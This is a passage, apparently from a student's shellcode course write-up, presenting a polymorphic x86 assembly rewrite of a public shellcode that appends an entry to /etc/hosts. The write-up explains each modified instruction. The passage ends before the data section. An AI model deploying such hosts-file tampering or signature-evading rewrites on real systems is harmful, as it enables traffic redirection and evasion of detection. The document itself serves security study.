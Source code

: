 Lastly, we call sys_exit with a push, pop.
```
0000005C  6A01              push byte +0x1
0000005E  58                pop eax
0000005F  CD80              int 0x80
```

### Task 6: Polymorphic

The first shellcode I chose for this assignment was a shellcode which adds a value to an /etc/hosts file (found here http://shell-storm.org/shellcode/files/shellcode-893.php). I like the idea here, as it's a little out of the normal shellcode tactic. It's not 'covert' but it certainly isn't spawning /bin/bash :shrug The original shellcode is 77 bytes, so it's not huge, specially considering the size is going to be based on the value you add to the hosts file. 

After modification, the shellcode now sits at 80 bytes. Three bytes were added to the assembly, but the meat of the shellcode has been rewritten with equivalent instructions-- I was even able to add some kewl math. Here it is:

```
global _start
section .text
_start:

    xor ecx, ecx
    mul ecx

    push eax
    mov al, 0x4     ; Mod

    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp

    inc ecx     	; Mod
    push ecx    	; Mod
    pop edi     	; Mod
    mov ch, al  	; Mod
    inc eax     	; Mod

    int 0x80        ;syscall to open file

    mov ebx, eax    ; Mod
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    
    mov dl, len     ; Mod

    int 0x80        ;syscall to write in the file

    sub edx, 0xE    ; Mod (this needs to be changed based on the length of 'google' as it's subtracting to 6. Perhaps use a div and do the modulus?)
    mov eax, edx    ; Mod

    int 0x80        ;syscall to close the file

    mov eax, edi    ; Mod
    int 0x80        ;syscall to exit

_load_data:
```